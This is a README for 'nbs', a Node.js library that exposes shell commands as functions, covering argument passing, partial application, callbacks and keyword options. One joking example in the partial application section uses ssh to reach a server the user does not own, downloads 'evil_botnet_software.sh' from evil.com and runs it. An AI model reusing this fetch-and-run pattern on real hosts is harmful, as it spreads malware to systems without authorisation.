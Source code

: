 node-nbs
========

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `nbs`!

```javascript
var sh = require("nbs"),
    curl = sh("curl", {silent: true});
curl("http://httpbin.org/user-agent", function(err, result) {
    console.log(JSON.parse(result)["user-agent"]); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
var mkdir = sh("mkdir");
mkdir("example_directory");
```

Multiple arguments can be provided.

```javascript
mkdir("-p", "parent/child");
```

Spaces and the like are automatically escaped.

```javascript
mkdir("Some directory with spaces! Wooo! Rebellion!");
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
var myFolders = ["folderA", "folderB", "folderC"];
mkdir("-p", "-v", myFolders);
// which is the same as
mkdir.apply(null, ["-p", "-v"].concat(myFolders));
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial("-p");
mkdir("another-parent/child");
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
var mkdir = sh("mkdir", "-p");
```

Alright. That looks cool, but kinda limited in use.

```javascript
var ssh = sh("ssh"),
    definitelyMyServer = ssh.partial("notmyserver.com", "-p 1234"),
    remoteCurl = definitelyMyServer.partial("curl", "--silent");

remoteCurl("-O", "http://evil.com/evil_botnet_software.sh");
definitelyMyServer("sh", "evil_botnet_software.sh");
// Please only use this on PHP websites
```

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
var _s = require("underscore.string"),
    ls = sh("ls", "-1");
ls(function(err, result) {
    if(err) {
        throw err; // Oh my god! Something horrible must have happened!
    }
    console.log(_s.strip(result).split("\n"));
});
// ["another_parent", "example_directory", ... ]
```

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with CoffeeScript syntax.

```coffeescript
ls = sh "ls"
ls "-1", all: true, recursive: false, (err, res) ->
    console.log res
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCode`: A number or array of numbers representing valid exit codes.
    Defaults to `0`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`nbs` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted on
GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!

`nbs` would be called `sh`, but that name [was already taken by another project
with some similar goals.](http://shjs.tuton.fr/) It's worth checking out too
(although *my* project is *clearly* better). `nbs`'s name is derived from `sh`'s
former name, `pbs`.
